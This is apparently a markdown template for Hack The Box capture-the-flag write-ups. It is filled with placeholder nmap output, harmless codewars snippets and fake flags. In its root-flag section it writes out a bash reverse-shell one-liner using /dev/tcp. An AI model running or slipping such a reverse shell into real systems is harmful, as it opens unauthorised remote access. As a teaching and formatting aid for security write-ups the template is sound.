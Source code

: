 ```yaml
---
title: "Hack The Box - Traceback"
author: Xh4H
date: "01-07-2020"
---
```


*Everything below is just random stuff for the sake of example.*

# Information Gathering

## Nmap
We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

```console
x@wartop:~$ nmap -sVC 192.168.100.6

Starting Nmap 7.01 ( https://nmap.org ) at 2019-08-11 08:57 PDT
Nmap scan report for 192.168.100.6 (192.168.100.1)
Host is up (0.022s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9 (protocol 2.0)
53/tcp  open  domain
81/tcp  open  http     Apache httpd
|_http-server-header: Apache
444/tcp open  ssl/http Apache httpd
|_http-server-header: Apache
| ssl-cert: Subject: commonName=192.168.100.6
| Not valid before: 2018-07-06T14:40:08
|_Not valid after:  4756-06-01T14:40:08

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 201.22 seconds
```
From the above output we can see that ports, **22**, **53**, **81**, and **444** are the ports open. This is just an example to show code formatting so who cares.

Look  here's an image of my website, this is how you format an image.

![My Website](./images/ryankozak.com.png)
\ **Figure 1:** My Website


![Github](./images/github.png)
\ **Figure 2:** Github Profile

Maybe we want to show some python code too, to let's take a look at a snipped from [codewars](https://www.codewars.com) to format time as human readable.

```python
def make_readable(seconds):        

    hours = seconds / 60**2
    minutes = seconds/60 - hours*60
    seconds = seconds - hours*(60**2) - minutes*60

    return '%02d:%02d:%02d' % (hours, minutes, seconds)
```


# Exploitation  

In order to gain our initial foothold we need to blablablabla. Here's another code snippet just for fun.

```php
function sqInRect($lng, $wdth) {

    if($lng == $wdth) {
      return null;
    }

    $squares = array();

    while($lng*$wdth >= 1) {
      if($lng>$wdth) {
        $base = $wdth;
        $lng = $lng - $base;
      }
      else {
        $base = $lng;
        $wdth = $wdth - $base;
      }
      array_push($squares, $base);
    }
    return $squares;
}
```
Above is the php code for the **Rectangle into Squares** kata solution from codewars.


## User Flag

In order to get the user flag, we simply need to use `cat`, because this is a template and not a real writeup!

```
x@wartop:~$ cat user.txt
6u6baafnd3d54fc3b47squhp4e2bhk67
```

## Root Flag

The privilege escalation for this box was not hard, because this is an example and I've got sudo password. Here's some code to call a reverse shell `bash -i >& /dev/tcp/127.0.0.1/4444 0>&1`.


![Root](./images/root.png)
\ **Figure 3:** root.txt v5gw5zkh8rr3vmye7p4ka


# Conclusion
In the conclusion sections I like to write a little bit about how the box seemed to me overall, where I struggled, and what I learned.

# References
1. [https://ryankozak.com/how-i-do-my-ctf-writeups/](https://ryankozak.com/how-i-do-my-ctf-writeups/)
2. [https://github.com/Wandmalfarbe/pandoc-latex-template](https://github.com/Wandmalfarbe/pandoc-latex-template)
3. [https://hackthebox.eu](https://hackthebox.eu)
4. [https://forum.hackthebox.eu](https://forum.hackthebox.eu)
